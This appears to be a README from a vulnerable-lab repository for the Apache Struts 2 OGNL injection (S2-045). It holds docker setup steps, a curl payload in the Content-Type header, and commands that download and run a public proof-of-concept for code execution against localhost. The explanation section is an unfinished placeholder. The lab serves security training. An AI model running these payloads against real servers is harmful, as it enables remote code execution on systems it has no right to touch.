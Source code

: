 # 5. Apache Struts 2 OGNL Injection
## Subtitle / what it does

### Run in docker:
```
cd 5-apache-struts-2
docker-compose up -d
```

### Exploit:
```
curl -XPOST -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('PWND',73*38)}.multipart/form-data" -v http://localhost:8080

```
### Proxy curl via Burp:
```
curl -XPOST --proxy http://127.0.0.1:8080 -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('PWND',73*38)}.multipart/form-data" -v http://localhost:8080

```

![image](https://user-images.githubusercontent.com/31791455/140393499-ab5e5463-ea74-46c0-a746-c8457c23f773.png)


### Code execution:
The exploit requires unlocking some OGNL features before you can pass from simple code evaluation to full RCE.
Ready to use exploit can be found here: 
```
wget https://raw.githubusercontent.com/Medicean/VulApps/master/s/struts2/s2-045/poc.py
chmod +x ./poc.py
python2 poc.py "http://127.0.0.1:8080" "id"
```

![image](https://user-images.githubusercontent.com/31791455/140393300-96dba119-0002-4c2a-af5b-0a1704484a0a.png)


### Explanation
This happens costam

### References and recommended reading


### Credits:
https://github.com/vulhub/vulhub/tree/4d17ab2d4df39eefad5c498c5aa60b036a05494d/struts2/s2-045
